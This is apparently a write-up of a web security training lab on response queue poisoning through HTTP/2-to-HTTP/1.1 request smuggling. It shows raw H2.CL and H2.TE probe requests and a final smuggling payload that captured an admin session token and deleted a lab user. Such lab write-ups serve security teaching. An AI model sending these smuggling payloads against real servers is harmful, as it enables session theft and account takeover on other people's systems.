




# Response queue poisoning via H2.TE request smuggling
# Objective
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user `carlos` by using response queue poisoning to break into the admin panel at `/admin`. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.

# Solution
## Analysis
### Basic request smuggling attact attempts
#### H2.CL attempt
There is no visible indication of HTTP/2 downgrading vulnerability.
```
POST / HTTP/2
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
Cookie: session=YpntYpz3l2Es4egjv1aC07DVB3oeXfpR
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Length: 0

GET /smuggled HTTP/1.1
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
Content-Length: 5

x=1
```

||
|:--:| 
| *No visible indication of HTTP/2 downgrading vulnerability* |

#### H2.TE attempt
Website is vulnerable to `H2.TE` request smuggling.
```
POST / HTTP/2
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
Cookie: session=YpntYpz3l2Es4egjv1aC07DVB3oeXfpR
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Transfer-Encoding: chunked

0

GET /smuggled HTTP/1.1
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
Foo: bar
```

||
|:--:| 
| *HTTP/2 downgrading vulnerability  occured* |

## Exploitation
By exploitig `H2.TE` vulnerability attacker can poison response queue. Because of that, attacker can receive victim's response. In this case attacker was able to get `HTTP 302` response with admin's session token. Victim was trying to log in and he did not receive correct response. He received response to smuggled request (`GET` request to `/smuggled`) - `HTTP 404 Not found`.

> [!IMPORTANT]  
> In order to smuggle whole request and separate it from other request the smuggled request must end with `\r\n\r\n`

```
Client                                              Front-end
Attacker Request_1, Request_2 (smuggled)    -->     
                                            <--     Response_1
Victim Request_3                            -->
                                            <--     Response_2
Attacker Request_4                          -->
                                            <--     Response_3
```

```
POST / HTTP/2
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net
Cookie: session=YpntYpz3l2Es4egjv1aC07DVB3oeXfpR
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Transfer-Encoding: chunked

0

GET /smuggled HTTP/1.1
Host: 0a7a00c20317eebe803a2648006d0060.web-security-academy.net

```

||
|:--:| 
| *Successful response queue poisoning* |
||
| *Deletion of user Carlos* |
